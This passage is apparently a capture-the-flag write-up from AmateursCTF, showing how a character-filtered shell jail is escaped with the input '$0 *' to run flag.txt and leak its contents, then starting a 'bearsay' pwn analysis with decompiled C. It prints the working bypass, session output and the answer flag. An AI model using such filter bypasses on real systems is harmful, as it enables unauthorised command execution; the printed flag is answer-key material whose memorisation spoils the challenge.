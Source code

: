 The program basically allows us arbitrary command execution but blocks the following characters:

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]
```

### Vulnerability

This list is obviously incomplete, we can use `$0` 

> When not used in the script, the `$0` holds the information of which shell you are currently using. So if you print the value of the `$0`, it will show you which shell you are currently logged in.

as well as `*`

```console
> nc chal.amt.rs 2100
$ *
/bin/sh: 1: flag.txt: not found
$
```

this shows that the current working directory contains the flag.txt file.

### Exploit

We can combine `$0` with `*` to execute the flag.txt file as a shell script, this will try to execute the flag contents as a shell command and ultimately give the `<command>: not found` error.

```console
> nc chal.amt.rs 2100
$ $0 *
flag.txt: 1: amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}: not found
```

### Flag

`amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}`

---

## pwn/bearsay

> bearsay(1) <br>
> bearsay - configurable speaking/thinking bear (and a bit more) <br>
> nc chal.amt.rs 1338

### Analysis

The entire program is relatively large to reverse engineer (although not difficult at all), but the crux is here:

```c
      iVar2 = strcmp("flag",&buffer);
      if (iVar2 != 0) break;
      if (is_mother_bear != 0xbad0bad) {
        uVar1 = rand();
        printf("ANGRY BEAR %s\n",*(undefined8 *)(bears + (ulong)(uVar1 & 3) * 8));
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      __stream = fopen("./flag.txt","r");
      fgets(flag,0x1000,__stream);
      fclose(__stream);
      box(0x7c,0x2d,2,flag);
      puts("|\n|\n|");
      uVar1 = rand();
      puts(*(char **)(bears + (ulong)(uVar1 & 3) * 8));
```